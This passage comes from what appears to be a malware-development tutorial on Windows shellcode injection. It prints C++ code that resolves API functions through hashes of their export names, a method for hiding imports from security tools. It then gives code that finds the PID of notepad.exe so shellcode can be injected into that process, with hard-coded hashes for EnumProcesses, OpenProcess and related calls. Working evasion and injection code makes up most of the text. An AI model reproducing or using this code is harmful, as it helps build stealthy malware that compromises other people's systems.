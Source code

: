 ```cpp
		DWORD functionNameRVA = addressOfNamesRVA[i];
		DWORD_PTR functionNameVA = (DWORD_PTR)libraryBase + functionNameRVA;
		char* functionName = (char*)functionNameVA;
		DWORD_PTR functionAddressRVA = 0;

		// calculate the hash of the function name
		DWORD functionNameHash = getHashFromString(functionName);

		// compare the function hash to the hash of required function name
		if (functionNameHash == hash)
		{
			functionAddressRVA = addresOfFunctionsRVA[addressOfNameOrdinalsRVA[i]];
			functionAddress = (PDWORD)((DWORD_PTR)libraryBase + functionAddressRVA);
			printf("%s : 0x%x : %p\n", functionName, functionNameHash, functionAddress);
			return functionAddress;
		}
		
	}
	return 0;
}
```

## <span style="color:red">Process Enumeration</span>

> I have selected "notepad.exe" as the target process, so the shellcode will be injected into its memory.

To inject the shellcode, obtaining the ProcessID of the remote process is necessary. <span style="color:lightgreen">EnumProcesses</span> is used to retrieve the process identifier for each process object in the system. Then, iterate over each process using the PID to get the BaseName using <span style="color:lightgreen">EnumProcessModules</span> and <span style="color:lightgreen">GetModuleBaseNameW</span>. If the base of the basename of the process matches, it returns the PID of that process.

To achieve that, first, obtain the hash of the function and utilize the getFunctionAddressByHash function to resolve the function addresses.

```cpp
DWORD getPID(const TCHAR* processName) {

	DWORD aProcesses[1024], cbNeeded, cProcesses;
	unsigned int i;

	// Resolve the address of EnumProcess from the hash
	PDWORD convertEnumProcesses = getFunctionAddressByHash((char*)"kernel32", 0xcd5e8a97);
	customEnumProcesses EnumProcesses = (customEnumProcesses)convertEnumProcesses;

	// Resolve the address of OpenProcess from the hash
	PDWORD convertOpenProcess = getFunctionAddressByHash((char*)"kernel32", 0x4105fc56);
	customOpenProcess OpenProcess = (customOpenProcess)convertOpenProcess;

	// Resolve the address of EnumProcessModules from the hash
	PDWORD covertEnumProcessModules = getFunctionAddressByHash((char*)"kernel32", 0x6333ef38);
	customEnumProcessModules EnumProcessModules =
    (customEnumProcessModules)covertEnumProcessModules;

	// Resolve the address of GetModuleBaseNameW from the hash
	PDWORD convertGetModuleBaseNameW = getFunctionAddressByHash((char*)"psapi", 0x9bfc0a3e);
	customGetModuleBaseNameW getModuleBaseNameW =
    (customGetModuleBaseNameW)convertGetModuleBaseNameW;

	// Resolve the address of CloseHandle from the hash
	PDWORD convertCloseHandle = getFunctionAddressByHash((char*)"kernel32", 0xfaba0065);
	customCloseHandle CloseHandle = (customCloseHandle)convertCloseHandle;

```